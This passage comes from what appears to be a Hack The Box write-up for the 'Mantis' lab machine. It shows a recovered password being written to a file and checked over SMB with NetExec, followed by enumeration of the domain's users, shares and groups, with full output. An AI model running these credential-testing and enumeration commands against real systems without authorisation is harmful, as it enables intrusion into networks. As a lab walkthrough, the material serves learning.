 The `admin`'s password seems to be encrypted with the [PBKDF2](https://en.wikipedia.org/wiki/PBKDF2) algorithm, thus, we can't directly decode it. So let's see what user `james` can offer us. If `james` is a domain user, we can obtain information about `HTB.LOCAL`.

<pre class="language-bash"><code class="lang-bash"># write jame's password to a file
$ echo "J@m3s_P@ssW0rd!" > james_pass
<strong># james is not a local user
</strong>$ nxc smb 10.10.10.52 -u james -p james_pass --local-auth
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:MANTIS) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [-] MANTIS\james:******** STATUS_LOGON_FAILURE
# james is a valid domain user
$ nxc smb 10.10.10.52 -u james -p james_pass
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:********
# enumerating domain's users, shares, and groups
$ nxc smb 10.10.10.52 -u james -p james_pass --users --shares --groups
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:********
SMB         10.10.10.52     445    MANTIS           [*] Enumerated shares
SMB         10.10.10.52     445    MANTIS           Share           Permissions     Remark
SMB         10.10.10.52     445    MANTIS           -----           -----------     ------
SMB         10.10.10.52     445    MANTIS           ADMIN$                          Remote Admin
SMB         10.10.10.52     445    MANTIS           C$                              Default share
SMB         10.10.10.52     445    MANTIS           IPC$                            Remote IPC
SMB         10.10.10.52     445    MANTIS           NETLOGON        READ            Logon server share
SMB         10.10.10.52     445    MANTIS           SYSVOL          READ            Logon server share
SMB         10.10.10.52     445    MANTIS           [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.10.52     445    MANTIS           [+] Enumerated domain user(s)
SMB         10.10.10.52     445    MANTIS           htb.local\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.10.52     445    MANTIS           htb.local\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.10.52     445    MANTIS           htb.local\krbtgt                         Key Distribution Center Service Account
SMB         10.10.10.52     445    MANTIS           htb.local\james
SMB         10.10.10.52     445    MANTIS           [+] Enumerated domain group(s)
SMB         10.10.10.52     445    MANTIS           SQLServer2005SQLBrowserUser$MANTIS       membercount: 0
SMB         10.10.10.52     445    MANTIS           DnsUpdateProxy                           membercount: 0
SMB         10.10.10.52     445    MANTIS           DnsAdmins                                membercount: 0
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Account Operators                        membercount: 0
SMB         10.10.10.52     445    MANTIS           Server Operators                         membercount: 0
SMB         10.10.10.52     445    MANTIS           RAS and IAS Servers                      membercount: 0
SMB         10.10.10.52     445    MANTIS           Group Policy Creator Owners              membercount: 1
&#x3C;SNIP>
SMB         10.10.10.52     445    MANTIS           Domain Admins                            membercount: 1